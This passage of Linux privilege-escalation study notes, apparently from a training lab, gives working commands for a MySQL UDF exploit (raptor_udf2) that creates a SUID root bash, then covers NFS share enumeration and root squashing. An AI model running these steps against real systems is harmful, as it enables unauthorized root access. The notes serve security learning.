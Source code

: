 Commands:
```bash
gcc -g -c raptor_udf2.c -fPIC  
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc  
```
Connect to the MySQL service as the root user with a blank password:

`mysql -u root`

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:

```bash
use mysql;  
create table foo(line blob);  
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));  
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';  
create function do_system returns integer soname 'raptor_udf2.so';
```

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permissions.

`select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');`

Exit out of the MySQL shell (type **exit** or **\q** and press **Enter**) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

BOOM!!


# NFS
It is configured in /etc/exports file. Remote users can mount shared, access, create and modify files.
By default created files inherits the remote user's id and group id even if they dont exist on the NFS server


Hunt: check for `cat /etc/exports`

Files created vua NFS inherits the remote user's ID, If the user is root, and root squashing is enabled, the ID will instead be set to 'nobody' user.

Check for NFS share configuration on the debian VM

`cat /etc/exports` | `showmount -e <IP>` | `nmap -sV -script=nfs-showmount <IP>` 
**Mount an NFS share**
`mount -o rw,vers=2 <target>:<share> <local_directory>`


### Root squashing
Root squashing is how NFS prevents an obvious privesc
If the remote user is root, NFS will instead "squash" the user and treat them as if they are the "nobody" user, in the "nobody" group.
While this behaviour is dfalut, it can be disabled.

**no_root_squash** is an NFS config option which turns off root squashing.
